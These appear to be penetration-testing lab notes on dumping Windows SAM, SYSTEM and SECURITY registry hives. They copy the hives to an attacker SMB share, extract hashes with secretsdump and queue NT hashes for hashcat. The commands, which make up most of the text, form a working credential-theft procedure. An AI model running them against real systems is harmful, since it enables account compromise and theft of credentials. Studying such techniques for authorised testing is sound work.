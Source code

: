 ### Copying SAM Registry Hives

| Registry Hive | Description                                                                                                                                                |
| ------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| hklm\sam      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| hklm\system   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| hklm\security | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |

### Saving Copies

```
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

### Sharing with attack box

Create SMB Share
```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

Move files to share
```
move sam.save \\10.10.15.16\CompData
move security.save \\10.10.15.16\CompData
move system.save \\10.10.15.16\CompData
```

### Dumping Hashes

Locating secretsdump
```
locate secretsdump 
```

Running secretsdump.py
```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

### Cracking with Hashcat

Add nthashes (second hash) to .txt file
```
sudo vim hashestocrack.txt

64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
6f8c3f4d3869a10f3b4f0522f537fd33
184ecdda8cf1dd238d438c4aea4d560d
f7eb9c06fafaa23c4bcf22ba6781c1e2
```

